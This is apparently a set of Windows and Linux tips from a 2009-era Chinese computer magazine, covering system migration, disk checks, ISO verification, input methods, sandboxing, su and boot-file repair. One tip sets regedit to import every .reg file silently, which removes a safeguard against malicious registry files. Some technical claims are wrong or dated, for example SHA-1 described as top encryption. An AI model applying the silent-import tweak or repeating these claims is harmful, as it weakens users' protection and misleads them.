进入XP系统，安装并运行Windows Easy Transfer 6.0（XP版本下载地址为：http://dl.pconline.com.cn/html_2/1/68/id=42205&pn=0.html），安装到F盘（即Win7系统所在盘），选择存储介质为“外部硬盘或USB闪存驱动器”。

在经过一段时间的扫描后，设置一个简单的密码123，单击“保存”，选择存储位置为F盘根目录。单击“下一步”后，开始把当前XP的数据全部传送给“F:\WINDOWS轻松传送 - 来自旧计算机的项目.MIG”，用了大约20分钟左右的时间（见图）。经过几次测试，时间相差不大。

### 小提示：
在这个过程里最好不要对计算机进行其他操作，以免影响需传送数据的准确度。

### 第二步，目标：传送给Win7
重启进入Win7，运行Windows Easy Transfer 6.0（刚才XP系统中的C盘变成D盘，而F盘变成C盘），选择“这是我的新计算机”，输入密码123，并选择“WINDOWS轻松传送——来自旧计算机的项目.MIG”文件，开始传送，大概需要20分钟（与生成的时间差不多）。

> (山东/孙洁)

## SREng不折腾，低调治驱动不兼容
小贝可是个顶级游戏发烧友，不仅狂败硬件，还极度追求画质和性能。前几天逛论坛搜到个国外网友发的改版驱动，宣称能有效提升帧数，立刻就心痒痒得不行。一番折腾装好了，重启却发现不兼容，蓝屏、死机一个接一个。低调的电脑高手小戈向小贝推荐了一款强大的软件——System Repair Engineer (SREng)。重启时按F8键进入安全模式以后，运行SREng，“启动项目”→“服务”→“驱动程序”，所有安装的驱动一目了然，选定“隐藏已认证的微软项目”可以将经过微软兼容性测试的驱动排除掉。

SREng下载地址：http://tinyurl.com/sreng。

## 自作聪明的更新后自动重启，举起手来！
Windows的自动更新程序可是补漏洞的好帮手，但每次重要的更新过后，总会弹出需要重启动的窗口，随之而来的还有“体贴”的自动重启倒计时，即使选择了稍后重新启动，Windows还是会不知疲倦地弹出对话框提示重启。更要命的是如果忽略了提示，自动重启会毁掉所有尚未保存的成果……如何改掉Windows的这个坏毛病呢？

当出现重启提示对话框后，Win键+R调出运行，输入sc stop wuauserv，回车运行，这样可以暂时停止自动更新服务，解燃眉之急，但关机重启后会失效。

可以请组策略编辑器来制服重启（以XP为例）：运行->gpedit.msc，打开组策略编辑器，进入“计算机配置->管理模板->Windows组件->Windows Update”，双击“计划的自动更新安装后不自动重启”，在弹出的对话框中选择“已启用”，然后“确定”。这项设置重启后即可生效，或者可以用“延迟计划安装的重启动”或“重新提示计划安装的重启”来提示的设置时间和频度，何时重启，自我做主！

> (文/大熊)

## 它适合你吗？明明白白你的地盘

硬盘是电脑的数据仓库，而如今的信息社会，数据的价值往往是硬盘本身价值的数倍，甚至数十、千倍。因此，实时掌握自己硬盘的情况显得非常有必要。此外，很多准备购买二手电脑的朋友，需要快速掌控硬盘是否健康，是否有更换的必要。一可防止上当受骗，二来可避免以后将重要数据保存在这块即将挂了的硬盘中。

## 超牛的私人医生3大法宝

这位私人医生包诊硬盘百病，包括各种疾病的预防措施，牛不牛？它叫CrystalDiskInfo。首先，从http://www.kuaixia.com/soft/85.html把它请到系统中，运行后它会自动检测一遍硬盘，之后便会将重要的硬盘信息资料显示出来了。

### 一看健康状态：

经过检测后，软件会根据各项参数并对其综合处理，最后给出当前硬盘的健康状态。如果硬盘显示“良好”，说明硬盘不存在潜在的故障，否则硬盘可能不妙，重要数据最好做好备份工作。

### 二看使用时间：

软件可以将硬盘的使用累计时间计算出来，这个功能特别适合在购置二手电脑或是二手硬盘时使用。可以清楚地查看硬盘的工作时间，如果对方谎称硬盘平时用得少，你便可一眼看穿，在有选择的条件下，购置硬盘使用时间少的，机械磨损的少，相应的硬盘使用寿命也会更长。

### 三看工作温度：

硬盘在工作时高速旋转，因此会产生热量。如果硬盘温度过高就会存在烧坏硬盘的风险。特别是在夏季，此情况更为突出。因此，民间流传很多给硬盘散热的方案。不过，自己的硬盘是否需要进行特殊的散热处理呢？假如在最热的环境下，硬盘工作温度仍属正常，做散热处理岂不是画蛇添足。

### 小知识：硬盘耐温吗？

通常硬盘的正常工作温度比室温高出10~20度，夏天最高能达到60~70度，而硬盘的极限工作温度可以达到80度，否则会出现工作不稳定甚至毁坏硬盘的情况。如果硬盘工作温度在80度以下，通常可以不加另外的降温措施。

### 小提示

除了上述几个关键参数外，通过此工具还可以快速了解硬盘的其他重要信息，例如固件号、传输模式、序列号、缓存大小等，在有些时候可能非常有用。

## 将硬盘LED灯放到系统托盘中

在硬盘进行数据读写时，机箱上的硬盘灯就会闪烁，通常可以用来判断当前系统中的数据读写行为。例如有时候我们并没有进行文件移动或是其它读写操作（例如没有安装桌面搜索工具、杀毒软件也没有启动扫描）时，硬盘数据灯闪烁，往往可以粗略地判断是否感染病毒或是被黑客攻击。不过，硬盘灯在机箱上看起来并不方便，而只要从http://work.newhua.com/cfan/200921/hdi.zip下载Hard Disk Indicator，运行后它就会在托盘区中替代机箱上的硬盘灯了。

### 小提示：

该软件还可以直接用来监测某个硬盘分区。例如只想监测C盘的数据读写行为，只要双击托盘区程序图标并单击打开窗口中的“Settings”按钮，在打开的窗口中将所有的硬盘设置为“C”即可。

(文/daigua)

## 安全第一，请进原版Windows 7安装镜像

随着Windows 7正式发售，许多人开始从网上下载Windows 7进行安装。编辑部近日接到很多读者求助电话，他们反映说自己总是下载到暗藏木马的安装镜像，还没享受到Windows 7魅力，反而要先忍受木马折磨。怎样才能下载到安全、原版的安装镜像？

### 原汁原味，用SHA-1值检验！

微软提供了Windows 7 RTM MSDN原版镜像SHA-1值，将下载到的镜像的SHA值和这个微软官方数值比较，就可以直观辨别出下载到的是否是真正原版。

### 小知识：说说SHA

SHA（Secure Hash Algorithm，安全散列算法），SHA-1是由美国标准技术局颁布的标准，应用最广泛的hash函数算法，也是目前最先进的加密技术。只要对某一个文件进行任何更改，更改后文件的SHA值就不同。

借助HashTab（下载地址：http://www.onlinedown.net/soft/87347.htm），安装完HashTab就可以通过右键菜单比较SHA值了。比如，微软公布的简体中文Ultimate版SHA1值是“B589336602E3B7E134E222ED47FC94938B04354F”。打开自己下载到的Ultimate镜像，右击选择“属性→文件hash→选项”，勾选SHA1，在下方HASH比较处输入上述官方SHA值，两个文件SHA值是否相同就一目了然了。

### 网络大补帖：

Windows 7所有版本的SHA-1和MD5值：http://www.vista123.com/html/10515.html。

### 正派改版，揪出“李鬼”文件！

网上很多高手经常会对原版镜像进行修改，比如集成最新补丁，集成常见驱动等操作，这样SHA也发生了改变，但这些仍然算“原版”安装镜像。因此并不能否定这样的镜像，可通过文件比较方法来找出镜像中增加、缺失或修改过的文件。

通过Beyond Compare 3（下载地址：http://www.scootersoftware.com/BCompare-3.1.7.10865.exe）实现。

### 第1步：

将原版安装镜像使用WinRAR打开并将所有文件解压到一个文件夹如j:\win7，将下载到的镜像也解压到j:\win71。

### 第2步：

启动Beyond Compare 3，单击左侧窗格的按钮，选择j:\win7，单击右侧窗格的相同按钮选择j:\win71，此时程序就会自动对两个文件夹进行比较。对于win71新增的文件则以绿色显示，对于win7和win71不同的文件则以红色显示，通过颜色即可快速判定出增加、缺失或者修改过的文件。

### 小提示：

对于和原版不同的文件展开相应的目录，通过查看属性不同即可轻易判断出下载镜像和原版镜像的不同。

### 验出木马，速度消毒！

Windows 7的文件主要是\sources\install.wim展开的文件，木马制造者也主要是将木马隐藏在这个目录。

### 第1步：

到http://www.newhua.com/soft/614.htm下载UltraISO，启动程序后单击“文件→打开”，打开下载到的镜像文件，提取其中的“\sources\install.wim”到j:\win71。

### 第2步：

下载Wimtool（下载地址：http://www.newasp.net/soft/app/26726.html），启动程序后切换到“挂载和解开”，选择要挂载的Wim文件“j:\win71\sources\install.wim”，选择目标文件夹d:\win71，勾选“可写方式挂载”、“自动打开目录”，单击“挂载映像”。

### 第3步：

现在启动杀毒软件对d:\win71进行扫描，如果发现病毒直接删除即可。删除病毒后返回wintool窗口，单击“卸载镜像”，程序提示是否保存镜像时，单击“是”。再把删除病毒的install.wim拖到UltraISO窗口替换同名文件，然后刻录光盘即可。

(文/漂泊的稀饭)

## 点了“关机”之后，玄机来了……

Windows只提供了启动文件夹，却没提供关机文件夹。如何才能让程序跟随关机操作自动运行呢？使用HSLAB Shutdown Folder这款独特的软件，即可为Windows巧设关机文件夹。

这时间有看官问了：您这是吃饱了撑的吧，我为什么要这么设置关机文件夹呢？别急，我给您带来了两大好处。

首先，把这位爷先请到电脑上来，下载地址：http://www.newhua.com/soft/88181.htm。安装完成后，会在“开始→程序”菜单中新建Common Shutdown Folder和Shutdown Folder两个关机文件夹，将所需的程序、快捷方式、文件等对象放置到对应的关机文件夹中，关机时，HSLAB Shutdown Folder即可暂时叫停关机操作，并逐个执行关机文件夹中的预设对象，当所有的对象都执行完成后，才允许系统正常关机。

### 不懒！关机自动清理垃圾信息

在使用Windows过程中，会产生各种垃圾数据。如何在关机时自动将其清除呢？这里使用FCleaner这款免费软件来完成使命。

下载地址是http://www.fcleaner.com/downloads/fcleanerportable.zip，将FCleaner解压到C:\Fcleaner文件夹中，执行其中的FCleaner.exe程序，在“选项→安全删除”中选择“删除算法”。FCleaner默认可以清理几乎所有类型的垃圾数据。打开上述Shutdown Folder文件夹，在其中创建名称为Autocleaner的记事本，输入“C:\Fcleaner\FCleaner.exe -AutoCleanup”，保存为“*.bat”的批处理文件即可。其中的AutoCleanup参数可以自动清理垃圾数据，而无需用户干预。这样当关机时，即可自动清理垃圾信息了。

### Just Do It: 关机自动备份重要数据

打开Shutdown Folder文件夹，在其中创建名为Autobackup.bat文件，在其中输入“ntbackup.exe backup "d:\data" /a /v:no /r:no /rs:no /hc:off /m incremental /l:s /f "h:\upanbak.bkf"”，保存文件。下面的操作你会做吧？

### 不囧！关机时提醒我还没拔闪盘

下班了，关机走人后，才想起来闪盘还插在电脑上。如果在关机时，自动检测优盘连接情况，并及时发出提醒信息，就可以避免上述囧境。

下载安装AutoHotKey（下载地址：http://www.newhua.com/soft/39219.htm），设计一段简单的程序，即可轻松实现上述功能。之后下载制作好的Autocheckupan.ahk文件（下载地址：http://work.newhua.com/cfan/200921/autoch.rar），打开Shutdown Folder文件，将解压得到的Autocheckupan.exe文件复制到其中。

当执行关机操作时，如果发现闪盘连接在电脑上，即可发出报警声和提示信息，提醒及时拔下闪盘。

(文/花的神明)

## 敲打的享受，小三儿拼音输入HAPPY总动员！

### 看了本文你会赚到：

全面提升输入本领，以刘翔的速度在论坛抢沙发！
游戏术语、QQ表情，输入法帮助你成为聊天圣手！
各种人群各种方言；看透常见故障随手就能解决！

### 非严肃性声明：

小编惊奇地发现本文恰好有11个技巧，在11月11日光棍节到来之际，谨祝天下光棍们节日快乐，早日觅到良缘。
输入法算是大家最常用的组件了，不管你是牛X的开发工程师，还是一个普通的小网虫，使唤电脑的必需手续之一，就是输入法了。通过敲打键盘来输入各种各样的字符，如今是个动脑子混饭吃的年代，你没有想过如何才能输得更好、更快，用得更专业、更尽兴？它生病时又怎么医治？由于拼音输入法既快速上手，又拥有最多的用户群，微软的拼音输入法没什么可说的了，老生常谈，本文将火力集中在第三方拼音上输入法（趣称“小三儿”），让小小的输入法，散发出大大的光芒。

## 抢沙发、输表情，做一个合格的好网虫

天天上网的网虫们，做得最多的有几件事：逛论坛博客回帖子、玩网游、QQ聊天，都需要快速地输入文字。而抢沙发的速度最能体现输入反应能力了，但假如你恰好遇到重码字（相同拼音的汉字），就麻烦了，很可能因此耽误个三四秒，那样沙发就消失了……

- 1.抢沙发，我最有一套
A.“重码字？沙发照样抢”。影响拼音输入最大问题就是重码字太多，这样在输入一个拼音后还要费力找出自己需要的字符。每种输入法实现方法不同：
所有拼音用户，都可以使用“以词定字”功能，设置方法相同，进入设置属性窗口，切换到“按键”，然后去除“翻页按键”后所有选项前的勾选。接着勾选“以词定字”后的“左右方括号”，单击“应用”。当需要输入常见重码字时，可以通过输入词语，然后按左右方括号键进行选取。比如，首次输入“秃”需要翻几页才能找到，此时只要输入tuding，然后在这个词语出现时按键即可输入“秃”字。
重点提一下搜狗拼音，再输入一个难找字的拼音之后，按一下Tab键，紧接着输入该字首个偏旁读音的第一个字母，就可以快速找到它，可以大大提高输入速度。比如要输入“窨”字，输入j之后翻了5页才能找到，此时，输入j之后按下Tab键再输入偏旁“宝盖儿”的读音d，即可快速找到“窨”，就在第一个。
B.“英文？沙发还是我的！”大部分人的英文都是一般般，尤其是离开学校几年后，单词量的锐减会让我们在输入单词时有心无力……
没事儿，只要你记得单词的前几个字母。在谷歌拼音中，只需输入v，再加前几个字母，输入法会自动提示你可能要寻找的单词，就像一本英文词典，比如输入vsuc，很快可以找到并输入successful（成功的）这个单词。
- 2.聊天圣手，八卦无止境
A.网游术语，搜狗快速输入。网游用户经常有自己一些独特游戏术语，使用搜狗细胞词库可以快速输入这些术语。比如，传奇用户可以在设置向导勾选下载“传奇”游戏字库，以后只要输入shuallanyu就可以快速输入“刷炼狱”这个游戏术语了。
B.聊天圣手，聊天表情QQ拼音输入。Q友都知道，在QQ对话框可以通过组合字符打出各种表情。现在QQ拼音可以将表情输入融合到任意支持表情的程序中，比如在WORD中需要输入微笑表情，只要输入weixiao，然后选择5即可输入这个表情，而且按下分号可以打开表情输入器直接选择各种表情符号输入。

## 贴心便捷，大家一起Happy

输入法是老少咸宜的组件，不过不同的人群有不同的需求。根据用户群不同，CFan为大家设计了更为贴身的应用。

- 1.老师学生，字不会读我照输
在平时的学习中，经常要输入一些不会读的字词，此时可以使用QQ拼音的“拆分输入”，快速输入复杂字词并获取该字的读音。比如要输入“淼”字，只要输入shuishuishi即可选取“淼”字，还可以在此获得该字的读音。对于某些生僻字，很多输入法还支持笔画方式进行输入。比如谷歌拼音用户，只要先进入笔画输入模式，然后使用代码h（横），s（竖），p（撇），n（捺），z（折），d（点）依次输入该字的各个笔画，其中n和d是相同的。比如输入uhps可以输出开字（进入笔画输入模式后，小键盘上的1、2、3、4、5数字键也代表h、s、p、n、z）。

### 小提示：

Word中的“CJK统一汉字”提供了很多生僻字，也可以在此查找无法输入的生僻字。
- 2.老人，不会打字用鼠标写
老人们用电脑大多不会使用键盘打字，其实很多老年人并不需要输入很多字，输入几个简单的词汇，可使用免费的“逍遥笔”输入法。到http://www.onlinedown.net/soft/47068.htm下载软件并安装。需要输入汉字时，切换到逍遥笔输入法，在打开的程序窗口用鼠标“写”出需要输入汉字，每写出一个笔画，逍遥笔会自动在上方进行识别，输入字符写完后在上方识别结果中单击正确的字符即可输入。当然，对于不会读的字词，也可以使用逍遥笔手动写出来。
- 3.各取所需，专业输入
一些特殊行业的群体，他们经常要输入专业词汇，此时可以借助搜狗专业细胞词库快速输入。比如，医学人士可以到http://pinyin.sogou.com/dict/list.php?c=132下载医学专业词库，以后在搜狗就可以快速输入专业词汇了，比如输入ejiao可以输入“阿胶”中药名称。
需要使用方言的用户，搜狗用户可以到http://pinyin.sogou.com/dict/list.php?c=167下载各地方言细胞字库，安装好后就可以方便输入各地方言了。

### 小提示：

如果你的电脑中毒无法使用输入法，可登录http://qq.ip138.com/ime/选择各种在线输入法。

## 拒绝故障，打造顺畅输入快车

既然是软件，输入法也会出现各种各样的故障，一旦出现输入故障，显然会给日常操作带来极大的不便。

- 经典：输入法不见了
表现：输入法图标没有出现在任务托盘。
解决方法：单击“控制面板→区域和语言选项→语言→详细信息→语言栏”，勾选“在桌面显示语言栏”。如果这样仍然没有出现语言图标，或者上述选项为灰色无法选择，则很有可能中毒，查杀病毒后再执行上述操作。
一些病毒会取消输入法进程ctfmon.exe自启动，如果开机没有出现上述进程，单击“开始→运行”，键入msconfig，运行“系统配置实用程序”，在“启动”里把Ctfmon.exe选中。如果是已经安装的输入法突然没有出现在列表，此时只要在打开的“文字和语言输入服务”窗口，单击“添加”，在输入法列表将安装的输入法添加到列表即可。
- 蹊跷：他乡遇不见故知
表现：自己在一个账户里安装搜狗并进行很多个性设置，但是新建账户登录后却没有看到已经安装的搜狗输入法。
解决方法：账户输入法配置默认是和用户账户关联的。可以将某一账户输入法设置应用到所有账户。先进入原来账户，同上打开“区域和语言选项”窗口，切换到“高级”，勾选“将所有设置应用于当前账户和默认用户配置文件”，弹出确认窗口时，单击“是”，这样在电脑上新建的任何一个账户都可以使用原来账户的输入法。
- 神秘：输入设置丢失……
表现：系统重装后，原来输入法积累字库和设置全部丢失
故障解决：现在很多输入法都会记忆用户输入并进行科学排序，使用时间越长，输入法就用得越顺手。上述故障出现时由于我们没有及时备份设置所致，因此要养成定时备份字库习惯。谷歌、搜狗输入法都支持在线备份、更新操作，可以非常方便将输入法设置备份到网上，比如谷歌输入法打开属性窗口后，切换到“自动同步”，勾选“自动同步用户词典和设置”。使用google账户登录后完成备份操作，以后不管是重装，还是在其他电脑上使用谷歌拼音，都可以通过上述方法快速同步设置。

### 小提示：

现在很多人在手机上也使用搜狗输入法，手机搜狗同样支持在线备份词库。在手机上打开搜狗输入法设置后，切换到“用户词库备份”，然后按提示将词库上传到网上。需要恢复时下载字库进行恢复操作即可。

## 注册表导入，拒绝多嘴提示

双击一个REG注册表文件，将其导入到注册表中时，都会弹出一个类似于图所示的对话框。如果在对系统进行优化，需要将多个注册表文件导入，频繁弹出的多个对话框，无疑会降低工作效率。那么，能不能让注册表编辑器不再“多嘴”呢？答案当然是肯定的。下面，笔者就给大家介绍一下如何来实现。



```
打开记事本，然后输入以下内容：
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\regfile\shell\open\command]
@="regedit.exe /s "%1""
上述内容输入完毕后，将这个记事本文件另存为扩展名为REG格式的注册表文件（如“禁止提示.reg”），最后双击将其导入到注册表即可。
```

经过以上步骤的操作，无需注销、重启或结束并重新加载explorer.exe进程，对注册表所做的修改就能立刻生效，以后再双击任何一个注册表文件将其导入到注册表中时，就再也不会弹出对话框了。感兴趣的朋友不妨一试。

### 小提示：

如果想恢复导入注册表文件时弹出图所示的对话框，可先用记事本打开注册表文件“禁止提示.reg”，接着将字符串“ /s”替换为空，然后将修改过的注册表文件双击导入到注册表编辑器就可以了。
(文/华军)

## 小编小见：三强戏珠

网络新词是搜狗拼音的最大优势之一，依托于搜狐公司强大的技术实力，一定程度上提升了输入速度。搜狗拼音还能输入许多符号表情，如输入haha得到“^_^”。
谷歌拼音的最大特色是即时纠错功能和一键搜索，在你输错的时候它可能会提醒你甚至阻止继续输入，而一键搜索则是对谷歌搜索引擎的整合。
QQ拼音打出的旗号是占用资源小，最大的特色是设立等级制度，当你的等级达到LV4以后，就可以点亮QQ中的相关图标了。
至于选择哪款，纯粹根据个人喜好，没有哪个输入法绝对的好用。
(文/漂流在外)## 能虚则无敌 让Win7成为大沙盒

**庄子曰：人能虚己以游世；Cfan曰：系统能虚则无敌**

在很早很早很早的时候，聪明的中国人就发明了“虚”这个字！与它相关的词也有好多好多：虚心、虚伪、肾虚……虚字用在电脑上是好还是坏？因为还没人发明“虚拟病毒”，所以“虚”在系统里目前总是好的！

沙盒，也叫沙盘，顾名思义，它的功用与“虚拟”有关。脆弱的操作系统不但经受着各种病毒木马的威胁，而且还要经受因为长时间使用而产生的垃圾文件……对于不同的使用人群，沙盒功能也扮演着不同的角色。

### PART1. “我是普通用户，只想让系统高枕无忧”

#### PC的“舒肤佳”

想到千奇百怪、令人恶心的病毒……他们要发挥自己邪恶的功能，不可避免都要往磁盘上写N多东西。要是能把磁盘变得就像U盘那样可以“写保护”，系统不就百毒不侵了么？这功能在XP时代就有了，在磁盘的属性里“安全”选项卡中可以将用户的“写入”权限设置为“拒绝”。可这样的设置恶心程度与病毒不相上下，想要在桌面上新建个文档都被拒绝……

Win7来了！它集成的PC Safeguard（保护）功能能让“磁盘锁定”这个功能变得更人性化，真正让Win7处在一个大沙盒中！

首先，在用户账户设置中打开“PC Safeguard”，打开的过程中，系统需要大约5分钟时间准备。当准备完成后，选择“锁定硬盘”，出现如图1所示的画面，比如将系统所在的C盘锁定后，你依然能在桌面上新建文本或存放文件，但是当关机之后，这些保存的东西全部会被移走。这就像网吧常用的“还原精灵”！所以，此时系统会提醒你将新创建的数据保存到其他移动设备上。



**Vista/Win7的虚拟文件夹（火速链接：09年20期《穿上神速靴，不怕OUT，路径“秋找7宗最”》）**

#### 系统虚起来了，文件夹怎么能不虚呢

虚拟文件夹也叫智能文件夹，对很多人来说这可能是个陌生的名字，但看了下面的介绍，这绝对不是一个陌生的东西。它和“沙盒”这样的虚拟技术完全不同，其实就是将一些常用的、固定的路径，用一个快捷方式代替（这就和浏览器的“收藏夹”以及Cfan的“火速链接”类似），并让这些快捷方式出现在导航栏和开始菜单里，好处很明显，它能使用户抛弃繁琐的路径，更加方便地点击，提高工作效率。在Win7下，这些链接叫做“库”。

单击任意一个“库”就能直接到达目的地。Vista下的“虚拟文件夹”，其实和Win7中的库大同小异，只不过老老实实的叫做“收藏夹链接”。

在系统默认的库之上，还能继续新建其他“库”，如图2所示，再右击新建的库，选择“属性→包含文件夹”，即可把自己想要的文件夹链接到这里。

#### 本是同根生，Office 2010虚拟要一起

Office，同样作为微软旗下的产品，眼看着自己的兄弟们都或多或少地用到了虚拟技术，于是在新的Office 2010版本中添加了“保护模式”，使得通过互联网直接下载得来的Word、Excel和PowerPoint文件处于只读环境中，并且会有一个醒目的安全警报，如图3所示。

进入“安全阅读”模式时，Office 2010会在独立的沙盒中为Word、Excel和PowerPoint文件提供只读环境。这个时候，沙盒技术将最小化某个文档对系统的访问权并将其与其他文档隔离开来。即使用户读取的文档是恶意文件，它也无法从沙盒中逃脱出来，更别提去攻击用户的计算机和数据了。当用户需要对这些文档进行编辑时，需要点击Enable Editing（启用编辑）才能对文档进行编辑。如图3所示（Office 2010在远景论坛有下载，因为下载地址会变更，故没有附带下载地址）。

### PART2. “我就爱折腾：爱测软件，偏好清爽”

#### 装在“盒子”里的网络

将沙盒技术用在浏览器上……这已经不算是什么新的技术突破了。360浏览器是世界上首个将沙箱技术用在浏览器上的，但沙箱技术却并非360自主研发，而是基于Sandboxie而开发的。Sandboxie是一款专业的虚拟类软件（下载地址：http://www.onlinedown.net/soft/49367.htm），它的工作原理是通过重定向技术，把程序生成和修改的文件，定向到自身文件夹中。这些数据的变更包括注册表和一些系统的核心数据。通过加载自身的驱动来保护底层数据，这就是传说中驱动级别的保护。

谷歌浏览器Chrome将沙盘技术运用得更加透彻：它将沙盘技术运用在每个独立的标签中，这样就不会因为某个标签崩溃了而导致整个浏览器崩溃！

浏览器有了沙盒技术的保护，即使遇到了挂有木马的网站，由网站所加载的一切都在那个由沙盘提供的虚拟环境里运行，木马就不能对真正的系统构成威胁。不但如此，无论是360安全浏览器，还是Chrome，遇到不安全的网站时，都会以醒目的方式提示其危险性，如图4所示，真正做到万无一失！



#### 装在“层”中的软件

“有一天我做了一个有趣的梦：梦见软件都变成了人！他们都住在一个叫做系统的大房子里，一层一层的……大家相处融洽，就连相同软件的不同版本都能生活在一起！”

醒来的时候，梦竟然变成现实了！SVS（Software Virtualization Solution）……这就是让美梦成真的东西！它采用了层的概念，在电脑里虚拟出各个不同的层，将应用软件安装在这些层里，即使是同一个软件的不同版本，也可以同时和睦地共存在于你的电脑中。

安装的时候勾选Software Virtualization Admin Tool。使用时，选取“文件→创建新层→安装应用程序”，为将要安装的应用程序取好名字单击下一步，选择需要安装的程序。这时程序的安装和正常的安装就完全一样了。等安装完以后，右击任务栏中的图标选择停止捕捉，应用程序就被安装好了。

将软件安装在SVS里，系统就不会因为安装了过多的软件而运行缓慢。将这些导出的软件放到移动设备里，带到其他电脑上，只要别的电脑上也安装了SVS，简单地将软件导入就能重新使用了，避免了繁琐的安装过程。也可以将这些导出的“层”保存起来，当软件被你折腾得不能正常使用时，方便还原，如图5所示。将傲游、火狐等浏览器装在SVS中，可以实现安全浏览；对于初次使用的陌生软件，可以在SVS中安装，在“编辑高级层属性”中可以看到它对系统所作的更改。



> **小提示:**
> ★ 不但如此，要是安装的软件里含有恶意程序，只需要在SVS中删除，所有由该软件加载的东西都会统统消失！
> ★ 杀毒软件、驱动程序这类能直接调用硬件的软件，在SVS里面是不能正常安装的。

### PART3. “我是游戏迷，双开没问题！”

#### 双开DNF，挂机、升级两不误

苍天哥——魔兽世界中著名人物，与三季稻三哥齐名！他说：作为一个“高玩（高端职业玩家）”，要能够边升级边赚钱！可DNF确限制了一机多开，想要大号升级、小号挂机卖东西都不能，“高玩”这一光荣称号岂不是遥不可及了？

将系统“虚拟”到闪盘里，再将DNF“虚拟”到闪盘系统里……“Prayaya虚拟移动系统”帮你搞定！下载地址：http://www.prayaya.com/cn/download/。下载最新版并将其安装在闪盘里。

在闪盘系统的工具栏中，选择“浏览”，在电脑硬盘上找到DNF的执行程序运行就能完成在一台电脑上双开了，如图6所示。

还可以将DNF装在闪盘里，安装路径选择在“移动盘符:\Prayaya\Software”中，千万别选错了！进入Prayaya“虚拟桌面”时，弹出的对话框里有很多常用的软件，它们都能很兼容地装在你的闪盘系统里。PS：能将游戏、熟悉的软件、熟悉的工作环境放在自己的口袋里到处跑的人才是真正的“高玩”啊！



（四川/李户林）





## 别卖关子！SU出马搞定用户切换

对于用过Linux的人来说，SU(switch userid, 切换用户)命令大家再熟悉不过了，用它可以方便地进行不同用户之间身份的切换，用户和根用户(root)之间的切换十分方便。但初学Linux的人在使用SU命令时，往往会出现一些问题，比如用户切换了但是命令还是执行不了。献出两个实例，让你对SU的应用完全搞清楚！

## 在普通账户下干“管理员”的事儿

假如你身在一个普通的账户中，打算执行一个只有root(相当于Windows下的Administrator账户)账户才能执行的命令，比如用用fdisk命令查看磁盘使用情况，怎么办呢？重启系统切换账户？在Linux下，不用那么麻烦。先来认识一下SU命令的格式：su [-] [-c] [-m , -p] [-s, --shell=SHELL] [USER [AGE]]。其中[-](或[-l])最为重要也最为容易用错，这个参数是在改变用户时，将新用户作为登录用户。

**小提示：**
转不转换环境有必要吗？当然有必要！没有登录自己的环境就和没有这个用户一样，你自己的命令就无法实施了。



好了，下面就开始在普通账户下进行磁盘查看吧。在“终端”中输入(见图)：
$ su - root
$ fdisk -l
成功调用了fdisk命令！

## 打酱油的新用户

很多时候我们对于新账户的使用只是短时间的事情，能不能让新用户一闪而过，在完成指令后回到当前用户呢？比如在summer用户环境下要使用fdisk命令，但是不想将summer变为root，怎么办？这就需要请出另一个重要参数[-c]，在“终端”中输入：
$ su - root -c fdisk
可以看到虽然执行了root用户下的命令，但是系统返回到得还是summer用户，节省了用户间的转换操作。

通过对SU命令主要参数的介绍，相信大家对SU命令的疑惑应该可以解决了，因为此文面向初、中级者，所以一些比较少用或比较难懂的参数列在附表里，感兴趣的朋友可以去参阅。

## 附表：SU命令的其他主要参数

| 命令格式 | 作用 |
|---|---|
| -f或--fast | 不必读启动档(如 csh.cshrc等)，仅用于 csh 或 tcsh。 |
| -s shell或--shell=shell | 指定要执行的shell，预设值为/etc/passwd 内的该使用者 |
| --help | 显示说明文件 |
| --version | 显示版本资讯 |

(文/武云龙)

## 极速！为RAR文件解压找把“快刀”

提起RAR文件解压操作，大家都非常熟悉，这完全是WinRAR的“分内”之事。不过当您对“大块头”的RAR文件执行解压操作时，往往会花费很长的时间，这对于配置较低的电脑来说尤为严重。虽说使用WinMount可以将RAR映射为独立的盘符，可以加快RAR文件访问的速度。但是当提取其中的全部文件时，其速度实际上表现一般。如何才能减少等待时间，快速实现RAR文件解压操作呢？使用RAR File Open Knife (简称RFOK) 这款独特的软件，即可完美解决上述问题。下载地址：http://work.newhua.com/cfan/200922/rfok.rar。
RFOK安装后，接管了RAR文件的控制权。在RFOK主窗口(见图)中打开RAR File Open Knife面板，在其中的路径设置栏中双击鼠标，可以选择RAR解压路径(默认为桌面)，这样当使用RFOK解压RAR文件时，即可在将其释放到预设路径中。

有三种方法可以执行快速解压操作，其一是将RAR文件直接拖动到RFOK主窗口中；其二是在目标RAR文件的右键菜单中点击“Extract!”项；其三是直接双击目标RAR文档。使用上述任意一种方法，都可以对目标RAR文件执行快速解压操作。可以看到，使用RFOK处理大块头的RAR文件，其解压速度有了明显提高。打开目标文件夹，在其中即可得到解压后的文件了。



(河南/花的神明)

## 挡在自家大门外，启动文件丢失你该咋办？

当有一天你拿出钥匙站在自己门前，发现门上贴牌“门锁锁芯丢失，不能开启进门了”，你会作何感想？当然是一头雾水外加无奈了。在使用系统的时候，不管是病毒木马所为，还是自己不经意之举，让启动文件被删除，导致再开机时无法进入系统，面对冷冰冰的“启动文件缺失”，在不重新安装操作系统(GHOST恢复)情况下，怎么解决呢？

## 排除硬件故障，出现此情况原因一般有三：

- 1. 折腾，软件的胡乱装、胡乱卸载。
- 2. 手欠，进行了非正常操作，比如“显示系统文件”后将NTLDR删除。
- 3. 点背，系统文件染毒，被杀软删除。

## 有避免的良方吗？当然有：

- 1. 常用软件就那几样，装上就够了；如果你爱测试软件，请在虚拟机或者双系统下进行。
- 2. 系统盘根目录下的隐藏文件，千万不要随意删除！
- 3. 在杀软提示删除时，看清是什么文件，如果是系统盘的就要注意。

## XP下还得靠命令

由于XP系统和Vista/7系统的启动部分差别较大，在拯救处理上不太相同，索性就分为两个部分来讲。先说XP系统下。

**第一步：**在BIOS中将“光驱光盘”设置为第一启动项。运行XP安装光盘，在进入XP安装界面时，按R键以便进入“恢复控制台”。在“恢复控制台”中，键入数字1后回车。在“键入管理员密码”提示符后，输入管理员账户(即Administrator账户)密码，一般情况下密码都是空的，此时直接按回车键即可(见图1)。



**第二步：**进入光驱所在的盘符。按图1所示，在C:\Windows后面输入光驱盘符，比如H，然后输入dir查看光盘所有文件。再依次输入：
cd \i386
copy ntldr c:\
nexit
重启电脑，是不是已经在XP系统启动的进度条徘徊了呢？成功了！

**小提示：**
要查看故障恢复控制台提供的命令列表，可以在“命令提示符”下输入help，然后回车键；要查看有关特定命令的具体信息，输入“help+命令名”，然后按回车键。

## Vista/7 图形界面很方便

